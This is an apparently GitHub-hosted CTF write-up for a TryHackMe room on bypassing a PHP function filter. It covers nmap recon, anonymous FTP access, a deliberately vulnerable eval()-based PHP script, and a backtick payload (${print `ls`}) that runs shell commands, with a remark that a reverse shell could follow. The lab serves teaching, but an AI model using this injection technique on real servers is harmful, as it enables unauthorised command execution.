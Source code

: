 ## Room backtikcs on tryhackme

The room will let you practise php fileter bypass

Big hint starts from nmap stage
 
    sudo nmap -sVC <ip> -Pn -vv
 
 The output of it we will see that we have anonymous access to ftp server on `port 21`
 
    ftp <ip>
    
    username: anonymous
    passsword: anything
then you will find a directory called pub in which inside it has a dockfile which you cam download it through

    get manifest.docs
    
Then navigate to the directory you downloaded and open it to read what is inside. 
It is nothing but a was to use backticks tricks to bypass php filters

PHP source codes

      <?php
        //only the server can reveal the flag on http://google.com
        //?x=red: {{print(`whoami`)}}
        ///{${ print_r(`whoami`) }}
        // /dev/ctf

        function x($string)
        {
                $x = preg_match_all('/([a-z0-9_]+)\s*\(/isU', $string, $matches);
                if ($x) {
                        //$func = $matches[1][0];
                        foreach ($matches[1] as $func) {
                                //echo $func;
                                if (function_exists($func)) {
                                        echo "Don't Hack me with: " . $x;
                                        exit;
                                }
                        }

                        //exit;
                }
                //$r = str_replace('/dev/ctf', '\\"xxdd33\\"', $string);
                // BACKUP -->   $r = preg_replace('/(red|green|white|black|blue):\s*(.*)/', 'echo \'<div style="color:$1;">\'.strtolower(mambo vip"$2").\'</div>\';', $string);
                $r = preg_replace('/(red):\s*(.*)/', 'echo \'<div style="color:$1; font-size:25px">\'.strtolower("$2").\'</div>\';', $string);
                //echo $r;
                return eval($r);
        }

        if (isset($_POST['stp'])) {
                x($_POST['stp']);
                exit;
        }

        ?>
        
  so every thing suspicious is terminated. So using backticks you completely bypass it
     eg.
     
            ${print `ls`}
 so you can use any payload to get a reverse shell as web user.
